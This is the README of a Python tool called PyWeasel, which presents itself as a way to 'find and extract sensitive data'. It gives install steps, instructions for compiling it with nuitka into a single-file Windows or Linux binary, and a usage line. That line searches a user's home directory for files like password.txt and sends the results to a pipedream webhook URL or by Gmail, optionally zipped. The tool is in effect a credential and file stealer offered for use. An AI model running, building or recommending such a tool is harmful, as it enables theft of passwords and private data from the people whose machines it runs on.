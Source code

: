 <p align="center">
  <img width="460" src="https://i.ibb.co/jy7QPYW/weasel-cartoon-119631-230.png">
</p>

# PyWeasel

PyWeasel is a Python software to help you to find and extract sensitive data.

## Installation

Use the package manager [pip](https://pip.pypa.io/en/stable/) to install PyWeasel.

```bash
python -m pip install pip --upgrade --user
pip install --user pipenv
pipenv install
pipenv shell
```

## Usage

```
Example : /pyweasel.bin --url=https://your_workflow.m.pipedream.net --input-file=lin_list.txt --search_files=password.txt,csv --path="home/user/" --interactive=True --email="xxxx@gmail.com" --password="password" --zip=True'

--url
        Url parameter for http server
--input-file
        File with the list of files or extension to search
--search-files
        File extension to find ('txt') or filename to find ('secret.txt')
--contains-text
        Text contains in filename
--path
        Base directory to find files
--interactive
        Launch script interactive
--email
        Gmail email
--password
        Gmail password
--zip
        Zip files found in csv
```

## Compiling
To compile, first add nuitka when you are in `pipenv shell`

```bash
python -m pip install nuitka
```

After this, use command appropriate to your env.

### Windows
```bash
python -m nuitka --onefile --windows-onefile-tempdir pyweasel.py
```

### Linux
```bash
python -m nuitka --onefile pyweasel.py
```


## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.